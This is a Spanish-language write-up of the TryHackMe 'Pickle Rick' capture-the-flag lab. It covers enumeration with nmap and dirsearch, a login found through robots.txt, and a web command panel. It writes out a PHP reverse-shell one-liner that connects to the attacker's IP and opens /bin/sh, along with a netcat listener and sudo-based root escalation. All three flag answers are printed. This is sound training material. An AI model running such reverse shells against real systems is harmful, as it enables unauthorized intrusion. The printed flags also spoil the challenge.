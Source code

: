 # PickleRick
Máquina resuelta de *TryHackMe* en la que se trabaja la enumeración y *fingerprinting*, *reverse shell* y la escucha de puertos.
<div>
  <img src="https://img.shields.io/badge/-Kali-5e8ca8?style=for-the-badge&logo=kalilinux&logoColor=white" />
  <img src="https://img.shields.io/badge/-Nmap-6933FF?style=for-the-badge&logo=nmap&logoColor=white" />
  <img src="https://img.shields.io/badge/-Dirsearch-005571?style=for-the-badge&logo=dirsearch&logoColor=white" />
  <img src="https://img.shields.io/badge/-Bash-4EAA25?style=for-the-badge&logo=gnubash&logoColor=white" />
  <img src="https://img.shields.io/badge/-python-3776AB?style=for-the-badge&logo=python&logoColor=white" />
  <img src="https://img.shields.io/badge/-Netcat-F5455C?style=for-the-badge&logo=netcat&logoColor=white" />
</div>

## Objetivo

Explicar la realización del siguiente _Capture the flag_ perteneciente a la plataforma *TryHackMe*. Este desafío ambientado en la serie de *Rick y Morty* requiere explotar un servidor web y encontrar 3 ingredientes (*flags*) para ayudar a *Rick* a crear una poción que lo transforme nuevamente en humano. Para ello, se deberá interactuar con un formulario, penetrar en la máquina y realizar una escalada de privilegios.

## Que hemos aprendido?

- Realizar *fingerprinting* y enumeración de puertos y enumeración web.
- Realizar una *reverse shell*.
- Poner en escucha los puertos de la máquina.
- Escalada de privilegios.

## Herramientas utilizadas

- *Kali Linux*.
- Enumeración: *Nmap*, *Dirsearch*.
- Penetración: *Bash*, *PHP*, *Netcat*. 

## Steps

### Enumeración y fingerprinting

La máquina a vulnerar pertenece a la plataforma *TryHackMe*, la propia web te proporciona la IP de la máquina víctima. La conexión a esta se hace mediante una VPN que te proporciona THM y asigna una nueva IP para que tu máquina interactúe con la máquina vulnerable.
El primero paso es lanzar **Nmap** sin *ping* (-Pn) y con los *scripts* por *default* de la herramienta (-sC) para que encuentre vulnerabilidades. Además se quieren conocer las versiones que corren en cada puerto (-sV) y el sistema operativo (-O). No se indica, específicamente, que compruebe todos los puertos pues en este tipo de máquina no será necesario.

![Captura de pantalla 2025-04-04 131854](https://github.com/user-attachments/assets/8527c885-9cdd-499a-ba91-bebcf4b73f80)

El comando devuelve 2 puertos TCPs abiertos:  
- En el puerto 22 corre la versión *Openssh 8.2p1*, en un sistema *Ubuntu*, servicio *SSH*.  
- En el puerto 80 corre el servidor *Apache 2.4.41*, en un sistema *Ubuntu*, servicio *HTTP*.

Primero nos dirigimos, desde el navegador, al puerot 80 de la IP dada, donde se puede ver un mensaje de ayuda de *Rick*. Si se inspecciona el código de la página se puede encontrar un comentario con el nombre de usuario: *R1ckRul3s*.

![image](https://github.com/user-attachments/assets/52f9925c-635c-4310-bcb4-342b65b72e7e)

Seguidamente, con la ayuda de la herramienta **Dirsearch**, se hace una enumeración de posibles directorios y archivos que se encuentren en la web. Por la parte de directorios, únicamente aparece '/assets' pero su contenido no aporta ninguna pista. Sin embargo, sí aparecen varios archivos interesantes que son alzanzables. *Dirsearch* es lanzado con **Python3** indicando la IP a atacar (-u) y la lista a utilizar para la enumeración (-w); en este caso la 'raft-small-files-lowercase.txt'.

![Captura de pantalla 2025-04-04 134454](https://github.com/user-attachments/assets/664445ee-a900-445c-a035-085657bca083)

Al dirigrnos al archivo '/robots.txt', se encuentra lo que parece ser una contraseña que junto con el usuario antes encontrado, serán útiles para el otro archivo '/login.php', también hallado en la enumeración. 

![Captura de pantalla 2025-04-04 134517](https://github.com/user-attachments/assets/efdb16bd-b14c-41bd-bd19-edb158f80200)

| Usuario | Contraseña |
|---------|------------|
| R1ckRul3s | Wubbalubbadubdub |


### Vulnerabilidades explotadas

Al hacer el *log in* se llega a un formulario que accepta comandos. Después de realizar un <code>whoami</code> y un <code>pwd</code>, se descubre que somos el usuario 'www-data' y estamos en el directorio '/var/www/html'. Ejecutando <code>ls</code>, aparecen la lista de archivos que contiene el directorio entre los que destaca 'Sup3rS3cretPickl3Ingred.txt'. Para leer el contenido de este archivo es necesario utilizar el comando <code>less</code>, en lugar de <code>cat</code>, pues este está deshabilitado. De esta manera se encuentra el primer ingrediente.

<code>less Sup3rS3cretPickl3Ingred.txt</code>

**Flag: mr. meeseek hair**

![image](https://github.com/user-attachments/assets/281596d6-0bb6-454a-99a9-bc4494a38749)

Otro archivo interesante para inspeccionar es 'clue.txt', el cual informa de la posibilidad de encontrar otro ingrediente alrededor del *file system*. Se intenta navegar por los directorios a través del panel de comandos pero no es posible y se encuentran muchas limitaciones. Por ese motivo se intentará hacer una *reverse shell* para penetrar la máquina y trabajar desde dentro.

![Captura de pantalla 2025-04-08 174710](https://github.com/user-attachments/assets/efdbda6c-9acc-41bf-bac4-90fef94e646e)

Después de comprobar que la máquina víctima tiene **PHP** instalado mediante el comando <code>which php</code>, me dispongo a hacer la *reverse* con el código sacado de la web de [*pentestmonkey*](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet). Únicamente es preciso cambiar la dirección IP por la de la máquina atacante (en este caso, nos la proporciona THM mediante la VPN) y el puerto que se pone en escucha.

<code>php -r '$sock=fsockopen("10.23.92.113",1234);exec("/bin/sh -i <&3 >&3 2>&3");'</code>

Desde la máquina anfitriona se pone en escucha (-l) el puerto (-p) 1234 con la herramienta **Netcat**. Se le indica verbosidad (-v) para que muestre información como las conexiones establecidas y que no resuelva nombres de dominio (-n), solo se conecte a las direcciones IP, lo que hace que la conexión sea más rápida, evitando la resolución de DNS.

![Captura de pantalla 2025-04-08 180322](https://github.com/user-attachments/assets/655dc72c-3564-4a25-be3f-409d1498901a)

Una vez dentro, navegando hacia el directorio '/home/rick' aparece un archivo llamado 'second ingredients' donde se encuentra la segunda bandera. Desde dentro de la máquina ya se puede hacer uso de <code>cat</code> teniendo en cuenta que el archivo lo pondremos entre comas simples, pues su nombre está formado por dos palabras.

<code>cat 'second ingredients'</code>

**Flag: jerry tear**

![Captura de pantalla 2025-04-08 180738](https://github.com/user-attachments/assets/0607b361-f320-4904-a919-d9dfc0f53ef5)

Para encontrar el último ingrediente, se debe escalar privilegios. Primero se comprueba que comandos, el usuario actual (www-data), puede ejecutar con permisos de *sudo*. 

<code>sudo -l</code>

En la respuesta se aclara que se puede pasar a usuario *root* sin necesidad de instertar ninguna contraseña. Esto permite acceder al diretorio /*root* y encontrar dentro del archivo '3rd.txt' el tercer ingrediente.

![Captura de pantalla 2025-04-08 181105](https://github.com/user-attachments/assets/baf2e399-5077-4b13-b7de-40b90db803b0)

**Flag: fleeb juice **
